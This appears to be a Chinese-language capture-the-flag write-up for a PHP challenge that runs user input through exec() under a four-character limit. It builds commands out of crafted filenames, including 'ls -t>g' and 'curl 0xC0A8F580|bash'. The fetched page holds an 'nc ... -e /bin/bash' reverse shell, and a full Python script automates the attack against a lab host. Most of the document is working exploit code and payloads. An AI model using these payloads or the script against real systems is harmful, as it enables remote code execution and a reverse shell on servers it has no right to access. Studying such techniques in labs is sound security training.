






```php
<?php
highlight_file(__FILE__);
error_reporting(E_ALL);

function filter($argv)
{
    str_replace("/\?|/", "=====", $argv);
    return $argv;
}

if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
    exec(filter($_GET['cmd']));
} else {
    echo "flag in local path flag file!";
}
```
**方法**
```
1.构造ls -t>g
2.构造反弹shell 
	curl 192.168.245.128|bash
	由于输出长度少于4，那么十进制ip地址有点不利于操作，转为16进制
	0xC0A8F580
3.触发命令sh 

4.打开监听端口
5.开启web服务，index.html内容为nc 192.168.245.128 7777 -e /bin/bash
```

**反向构造ls -t>g**
- `>g\>`
- `>ht-`  ht-反向为-th，执行结果与-t一样，但是加上h用于解决排序问题，h优先级高
- `>sl`
- `>dir`
- `*` 将当前目录第一个文件名作为命令执行
- `*>v` 将\*执行结果写入v文件

- `rev v`发现是逆向的，因此还需借助rev将其还原为正向==但是rev v超过了4==
	- `>rev` 
	- `*v>x` 使用通配符，`*v`在这里能匹配rev文件执行v文件，那么`*v>x` 在这里是==`rev v>x`== 
```bash
构造 ls -t>g完整payload 
>g\; # 防止目录下其它文件干扰，创建g;文件
>g\>
>ht-
>sl
>dir
*>v
>rev
*v>x
```


**构造反弹shell**
```
期望命令curl 192.168.245.128|bash转为16进制curl 0xC0A8F580|bash

>sh
>ba\\
>\|\\
>80\\
>F5\\
>A8\\
>C0\\
>0x\\
>\ \\
>rl\\
>cu\\ # \\算单个字符转义后的\
```

**触发命令**

```
先执行>sh x会生成g文件

>sh g
```
连接成功


**脚本**
```python 
# encoding:utf-8  
import time  
import requests  
  
baseurl = "http://192.168.245.128:18090/class09/4/ffff.php?cmd="  
s = requests.session()  
  
# 将ls -t 写入文件g  
list = [  
    ">g\;",  
    ">g\>",  
    ">ht-",  
    ">sl",  
    ">dir",  
    "*>v",  
    ">rev",  
    "*v>x"  
]  
  
# curl 192.168.245.128|bash  
# curl 0xC0A8F580|bash  
list2 = [  
    ">ash",  
    ">b\\",  
    '>\|\\',  
    '>80\\',  
    '>F5\\',  
    '>A8\\',  
    '>C0\\',  
    '>0x\\',  
    '>\ \\',  
    '>rl\\',  
    '>cu\\'  
]  
for i in list:  
    time.sleep(1)  
    url = baseurl + str(i)  
    s.get(url)  
  
for j in list2:  
    time.sleep(1)  
    url = baseurl + str(j)  
    s.get(url)  
  
s.get(baseurl + "sh x")  
s.get(baseurl + "sh g")
```